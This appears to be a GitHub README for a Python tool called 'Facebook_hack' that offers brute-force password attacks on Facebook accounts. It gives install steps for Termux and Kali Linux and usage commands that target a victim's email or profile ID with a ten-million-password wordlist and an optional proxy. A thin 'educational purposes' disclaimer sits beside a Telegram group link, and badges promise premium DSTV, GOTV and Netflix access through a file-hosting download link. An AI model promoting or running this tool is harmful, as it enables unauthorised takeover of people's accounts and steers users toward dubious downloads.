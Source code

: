 
<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>


<a href="<a href="https://devuploads.com/5i9lnjzalx74"><img title="NETFLIX" src="https://img.shields.io/badge/NETFLIX-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>

# Facebook_hack
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://t.me/Dragonarlobot)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Arlo-dragony/HACHER-DRAGON-FACEBOOK-ATTACK.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/dragon
  
